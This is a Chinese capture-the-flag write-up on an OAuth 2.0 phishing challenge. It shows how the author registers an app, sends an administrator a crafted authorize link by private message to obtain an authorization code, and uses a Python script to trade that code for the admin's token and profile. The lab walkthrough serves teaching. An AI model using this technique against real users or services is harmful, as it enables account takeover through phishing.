

# 内网渗透与高级社工-社交平台钓鱼-G3 WriteUp

## 分析

本题考查的是OAuth 2.0授权码机制，关于OAuth 2.0的简单介绍可参考[https://www.ruanyifeng.com/blog/2019/04/oauth_design.html](https://www.ruanyifeng.com/blog/2019/04/oauth_design.html)，通俗易懂，共三篇文章，看完前两篇即可做此题。

进入网站，首先注册账号并在开放平台菜单栏中创建一个OAuth应用。



由此我们获取了Client ID、Client Secret、 Redirect URI信息。

```
client_id   app_74457116de74
client_secret   c57b4ac002f3e003b5da91e99f730858
redirect_uri    /oauth/cb/app_74457116de74
```

根据OAuth 2.0授权码机制，如果我们向管理员发送链接，即可获得该网站的管理员级别的授权码，进而获取管理员的Access Token，最后获取管理员的个人信息。

## 解题

我构造获取授权码的链接时使用了参数`scope=private`，由于OAuth 2.0没有对scope参数的值进行限制，`private`是根据题目猜的。另外获取个人信息的接口是`/api/me`，这个接口也是根据常见值猜的。

解此题的代码参看`get_flag.py`文件，其中OAuth授权码机制不作详细解释。

## 解题代码

```python
import requests

# 基本信息
BASE_URL = "http://172.17.0.13:15281"

client_id = "app_74457116de74"
client_secret = "c57b4ac002f3e003b5da91e99f730858"
redirect_uri = "/oauth/cb/app_74457116de74"

def get_access_token(client_id, client_secret, redirect_uri, code):
    url = BASE_URL + "/oauth/token"
    payload = {
        "client_id": client_id,
        "client_secret": client_secret,
        "redirect_uri": redirect_uri,
        "code": code,
        "grant_type": "authorization_code"
    }
    response = requests.post(url, data=payload)
    return response.json()

def get_user_info(access_token):
    url = BASE_URL + "/api/me"
    headers = {
        "Authorization": f"Bearer {access_token}"
    }
    response = requests.get(url, headers=headers)
    return response.json()

if __name__ == "__main__":
    # Example usage
    url_send = f"{BASE_URL}/oauth/authorize?client_id={client_id}&redirect_uri={redirect_uri}&scope=private"
    code = input(f"发送以下链接至私信获取授权码:\n{url_send}\n请输入授权码: ")
    access_token = get_access_token(client_id, client_secret, redirect_uri, code)
    print("Access Token:", access_token)
    userinfo = get_user_info(access_token['access_token'])
    print("User Info:", userinfo)
```